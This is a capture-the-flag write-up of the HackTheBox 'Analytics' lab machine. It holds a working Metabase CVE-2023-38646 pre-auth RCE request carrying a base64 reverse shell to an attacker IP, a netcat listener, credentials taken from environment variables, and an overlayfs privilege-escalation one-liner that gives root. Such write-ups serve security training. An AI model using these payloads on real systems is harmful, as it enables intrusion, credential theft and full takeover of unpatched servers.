



# Analytics - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `3000`.

***User***: Identified the subdomain `data.analytics.htb` hosting Metabase. Exploited `CVE-2023-38646` to acquire a reverse shell as the `metabase` user. Discovered the password of the `metalytics` user in the `env`.

***Root***: Leveraged the OS version to execute GameOver(lay) Ubuntu Privilege Escalation, resulting in obtaining a `root` shell.




## Analytics Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ nmap -sV -sC -oA nmap/Analytics 10.10.11.233
# Nmap 7.93 scan initiated Sat Jan  6 23:15:29 2024 as: nmap -sV -sC -oA nmap/Analytics 10.10.11.233
Nmap scan report for 10.10.11.233
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing http://analytical.htb/, we see that the following web page is hosted:


Upon clicking the login page, it redirects us to http://data.analytical.htb:


As observed, it's Metabase—a open-source business intelligence tool enabling the creation of charts and dashboards using data from various databases and sources.

We can utilize [CVE-2023-38646](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) for obtaining a Pre-Authentication Remote Code Execution (RCE).

According to the link, we need to retrieve the setup token from http://data.analytical.htb/api/session/properties which is `"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"`.

Next, we need to send the following POST request:
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 812

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjU3LzQyNDIgMD4mMQo=}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Where the base64 `YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjU3LzQyNDIgMD4mMQo=` decodes to `sh -i >&/dev/tcp/10.10.14.57/4242 0>&1`.

Executing this command grants us a reverse shell as the `metabase` user:
```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.57] from analytical.htb [10.10.11.233] 51534
sh: can't access tty; job control turned off
/ $ whoami
metabase
```

Executing the command `env` reveals the following output:
```console
/ $ env
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=b0d9aac8b711
FC_LANG=en-US
SHLVL=4
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/dev
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=ls
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db
```

The user `META_USER=metalytics` and the password `META_PASS=An4lytics_ds20223#` are visible in the output of the env command.

Utilizing these credentials, we can establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/Analytics]
└──╼ $ ssh metalytics@analytical.htb
metalytics@analytical.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  8 12:58:13 PM UTC 2024

  System load:              0.11865234375
  Usage of /:               93.1% of 7.78GB
  Memory usage:             26%
  Swap usage:               0%
  Processes:                152
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:f4fc

  => / is using 93.1% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ cat user.txt
33337145f65c908487888e1efe7eb276
```

And we get the user flag `33337145f65c908487888e1efe7eb276`.

### Root

By running `cat /etc/os-release`:
```console
metalytics@analytics:/tmp$ cat /etc/os-release 
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

Observing that the system is running on `Ubuntu 22.04.3`, we can exploit the local privilege escalation vulnerability described in https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629 where Ubuntu Kernels overlayfs ovl_copy_up_meta_inode_data skips permission checks when calling ovl_do_setxattr on Ubuntu kernels.

To exploit this, execute the following command:
```console
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
metalytics@analytics:/tmp# ls -ltra /var/tmp/bash 
-rwsr-xr-x 1 root metalytics 1396520 Jan  8 13:30 /var/tmp/bash
```

We can see that we have bash SUID binary, Run it:
```console
root@analytics:/tmp# /var/tmp/bash -p
root@analytics:/tmp# whoami
root
root@analytics:/tmp# cat /root/root.txt 
87fb1b0ec4b4f2d1d3005d2fb307655c
```

And we get the root flag `87fb1b0ec4b4f2d1d3005d2fb307655c`.

```